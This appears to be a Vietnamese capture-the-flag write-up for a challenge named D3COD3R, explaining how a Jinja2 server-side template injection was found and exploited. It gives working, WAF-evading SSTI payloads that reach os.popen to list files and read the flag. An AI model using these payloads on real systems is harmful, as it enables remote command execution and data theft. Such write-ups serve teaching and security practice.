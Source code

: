 # D3COD3R

## Background

---

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python/

https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

## SSTI discovery

---

- Chúng ta phát hiện được rằng chương trình có lỗ hỏng SSTI khi truyển chuỗi Base64 `e3snYScudXBwZXJ9fQ==` ( {{'a'.upper}} ) vào Decoder field của chương trình.

![img](images/test_upper.png)

## SSTI exploit and bypass WAF

---

- Đầu tiên, Chúng ta sử dụng lệnh sau để hiển thị tất cả các class.

```
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()}}
```

![img](images/list_class.png)

- Đến đây, chúng ta có thể tìm được ví trí của class mà chúng ta đang cần. Class đó là `os._wrap_close` nằm ở vị trí 132.

```
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__\x67etitem__')(132)}}
```

![img](images/os_wrap_close.png)

- Tiếp theo, ta sử dụng lệnh dưới đây để liệt kê tất cả các file có trong đường dẫn hiện tại.

```
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__\x67etitem__')(132)|attr('__init__')|attr('__\x67lobals__')|attr('__\x67etitem__')('__builtins__')|attr('__\x67etitem__')('__import__')('os')|attr('popen')('ls${IFS}\x2dla')|attr('read')()}}
```

![img](images/list_file.png)

- Ta phát hiện có file flag. Cuối cùng, ta sử dụng lệnh sau để đọc được file flag trên.

```
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__\x67etitem__')(132)|attr('__init__')|attr('__\x67lobals__')|attr('__\x67etitem__')('__builtins__')|attr('__\x67etitem__')('__import__')('os')|attr('popen')('cat${IFS}fla\x67')|attr('read')()}}
```

![img](images/flag.png)

---

> flag : `Wanna.One{we_wish_u_a_merry_ch1rsmas:3}`

---

